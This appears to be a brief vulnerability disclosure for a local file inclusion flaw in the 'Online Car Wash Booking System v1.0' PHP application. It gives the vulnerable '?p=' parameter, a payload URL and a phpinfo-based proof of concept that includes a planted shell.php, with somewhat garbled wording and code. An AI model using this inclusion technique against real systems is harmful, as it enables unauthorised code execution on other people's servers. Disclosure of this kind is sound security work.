 # Online Car Wash Booking System v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: ip/ocwbs/?p=

Vulnerability location: ip/ocwbs/?p=, p

Payload: ip/ocwbs/?p=shell
![image](https://user-images.githubusercontent.com/54017627/169309392-13f04d0c-2621-41d6-8cdb-09b94224fac7.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "
![image](https://user-images.githubusercontent.com/54017627/169309277-c851a216-faae-4c2e-8923-a07f17ba8b97.png)


And visit http://ip/ocwbs/?p=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/169309213-03caba89-8eed-44f4-9c3e-728add494072.png)
